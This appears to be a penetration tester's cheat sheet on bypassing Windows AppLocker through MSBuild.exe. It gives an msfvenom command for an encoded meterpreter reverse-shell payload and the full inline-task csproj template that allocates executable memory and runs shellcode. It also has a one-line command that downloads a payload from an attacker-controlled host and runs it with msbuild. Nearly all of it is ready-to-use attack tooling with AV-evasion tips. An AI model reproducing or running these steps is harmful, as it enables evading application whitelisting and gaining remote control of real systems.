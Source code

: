 # Applocker Bypasses

## MSBuild.exe

Multistep process to bypass applocker via MSBuild.exe:

1. Generate payload in csharp format with:
 ```bash cheat applocker msbuild generate payload
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f csharp -e x86/shikata_ga_nai -i <num of iterations> > <out>.cs`
```
2. Put the buffer into the template (be sure to change payload buffer, buffer size and some strings for av evasion:
```bash cheat applocker msbuild csproj template
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            byte[] shellcode = new byte[195] {};
              
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
3. Download & Execute:
```bash cheat applocker msbuild trigger payload
Invoke-WebRequest "http://<ip>:<port>/<payload>.csproj" -OutFile "<outfile>.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\<outfile>.csproj
``` 

## Other

* GreatSCT (https://github.com/GreatSCT/GreatSCT)
* Various Bypasses: https://github.com/api0cradle/UltimateAppLockerByPassList
* DLL Execution via Excel.Application RegisterXLL
* Bypass with Regsvr32

tags: #applocker 
